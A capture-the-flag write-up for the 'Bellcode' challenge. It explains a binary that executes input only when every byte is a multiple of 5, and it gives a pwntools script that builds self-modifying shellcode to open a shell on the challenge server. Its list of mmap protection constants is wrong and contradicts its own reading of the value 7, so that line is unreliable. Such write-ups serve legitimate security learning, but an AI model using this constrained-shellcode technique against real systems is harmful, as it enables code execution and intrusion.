


# Bellcode
## Do you like Taco Bell?
 - author: Eth007
 - solves: 37

The problem provides a single binary and a server to connect to. Throwing the binary into ghidra yields relatively simple code:
```c
undefined8 main(void) {
  byte bVar1;
  byte *local_18;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  mmap(0xfac300,0x2000,7,0x21,-1,0);
  puts("What\'s your shellcode?");
  fgets(0xfac300,0x1000,stdin);
  local_18 = (char *)0xfac300;
  while( true ) {
    if ((byte *)0xfad2ff < local_18) {
      puts("OK. Running your shellcode now!");
      (*(code *)&DAT_00fac300)();
      return 0;
    }
    bVar1 = *local_18;
    if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
    local_18 = local_18 + 1;
  }
  puts(&DAT_00102020);
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

The code mmaps `2000h` bytes of memory at address `FAC300h` with the protection flags argument set to `7`. The mmap flags are defined as:
```c
PROT_NONE  = 0
PROT_READ  = 1 << 0
PROT_WRITE = 1 << 2
PROT_EXEC  = 1 << 3
```
The protection modes are selected by bitwise orring the options together. `7` is 0b111 which means the memory is readable, writable, and executable. After mmaping the memory the code reads `1000h` bytes into the buffer, and checks that every byte in the buffer passes this check:
```c
if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
```
If all the bytes satisfy this condition then the shellcode is executed.

When working on restricted bytecode problems the first thing to usually do is build a list of the instructions that can be used. My favorite website for these kind of restricted shellcode problems is [ref.x86asm.net](http://ref.x86asm.net/coder64.html) because the instruction are sorted based on their opcodes. An important thing to take note of is [instruction encoding](https://wiki.osdev.org/X86-64_Instruction_Encoding). Instruction opcodes can be anywhere from 1 to 3 bytes long, and are used to identify the operation to be performed. The byte after the opcode is used to select the mode, src, and dst registers of the instruction.

The layout of the byte is:

The values reg field of the modrm byte are defined as:


`xor r/16/32/64 r/16/32/64` has an opcode of `33h`

`xor eax, eax` -> `33h 0b11_000_000`

`xor eax, dword [rax]` -> `33h 0b00_000_000`

`xor edx, dword [rcx]` -> `33h 0b00_010_001`

Back to the problem.
This if statement:
```c
if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
```
is checking whether or not the current byte is a multiple of 5. If it is the loop continues, otherwise it breaks and does not execute the shellcode. Looking through the instructions that are a multiple of 5 I found
```x86asm
mov ecx, imm32  -> B9h imm32
xchg ecx, eax   -> 87h 0b11_001_000
inc dword [rax] -> FFh 0b11_000_000
xchg ebx, eax   -> 87h 0b11_000_011
inc ebx         -> FFh 0b11_000_011
```
using these instructions we can build a shellcode program that modifies itself into a different program. The idea is to load the address of the shellcode (`FAC300h` all the bytes in the address are multiples of 5 which is probably by design) into ecx, xchg it into eax. Then modify the shellcode into a program to pop a shell.

```python
from pwn import *

payload = open("payload.bin", "rb").read()

code = bytes()
end = bytes()

# address of shellcode buffer
base = 0xFAC300
# offset into the buffer where new code will be placed
offset = 0x500
addr = base + offset

# mov ecx, addr
code += b'\xB9' + p32(addr)
# xchg ecx, eax
code += b'\x87' + p8(0b11_001_000)

for byte in payload:
    # every byte must be a multiple of 5
    change = byte % 5
    # if the byte is not a multiple of 5
    # adjust it so that it becomes a multiple of 5
    if change != 0:
        byte -= change
    # add the new byte to the end payload
    end += p8(byte)
    # add code to modify the byte back to
    # the original value
    for _ in range(change):
        code += b'\xFF' + p8(0b00_000_000)
    # move on to the next byte
    code += b'\x87' + p8(0b11_000_011)    # xchg ebx, eax
    code += b'\xFF' + p8(0b11_000_011)    # inc ebx
    code += b'\x87' + p8(0b11_000_011)    # xchg ebx, eax

# pad out the code with fwaits
# fwait is effectively a nop
code = code.ljust(offset, b'\x9B')
# add on the end payload
code += end
# add newline
code += b'\x0A'

# sanity check
for byte in code:
    assert byte % 5 == 0

io = remote("bellcode.chal.imaginaryctf.org", 1337)

io.sendafter(b"\n", code)
io.interactive()
```

[](https://asciinema.org/a/510843?autoplay=1)

## Flag: ictf{did_mod_5_ring_a_bell_be00c3fa}